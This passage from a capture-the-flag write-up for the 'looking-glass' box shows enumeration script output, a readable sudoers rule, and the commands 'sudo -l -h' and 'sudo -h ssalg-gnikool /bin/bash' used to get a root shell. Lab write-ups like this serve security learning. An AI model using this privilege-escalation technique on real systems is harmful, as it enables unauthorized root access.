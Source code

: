 ```text
tweedledee:x:1003:1003:,,,:/home/tweedledee:/bin/bash
humptydumpty:x:1004:1004:,,,:/home/humptydumpty:/bin/bash
alice:x:1005:1005:Alice,,,:/home/alice:/bin/bash
---
[i] usr040 Environment information......................................... skip
[i] usr050 Groups for other users.......................................... skip
[i] usr060 Other users..................................................... skip
[*] usr070 PATH variables defined inside /etc.............................. yes!
---
/bin
/sbin
/usr/bin
/usr/games
/usr/local/bin
/usr/local/games
/usr/local/sbin
/usr/sbin
---
[!] usr080 Is '.' in a PATH variable defined inside /etc?.................. nope
===================================================================( sudo )=====
[!] sud000 Can we sudo without a password?................................. nope
[!] sud010 Can we list sudo commands without a password?................... nope
[*] sud040 Can we read sudoers files?...................................... yes!
---
/etc/sudoers.d/alice:alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

After only a few seconds, and one of the first things the script finds is the obvious path to root. We can break the sudoers command down to:

```text
User = alice
Hostname = ssalg-gnikool
Permissions = root with no password required
Command we can execute = /bin/bash
```

The hostname ssalg-gnikool is the actual box hostname of looking-glass in reverse. We need to find a way to exploit this using sudo, which is easy using the -h flag:

```text
alice@looking-glass:~$ sudo -l -h ssalg-gnikool
sudo: unable to resolve host ssalg-gnikool
Matching Defaults entries for alice on ssalg-gnikool:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on ssalg-gnikool:
    (root) NOPASSWD: /bin/bash
```

This confirms what we thought, so now we can escalate to root:

```text
alice@looking-glass:~$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/root# id
uid=0(root) gid=0(root) groups=0(root)
```

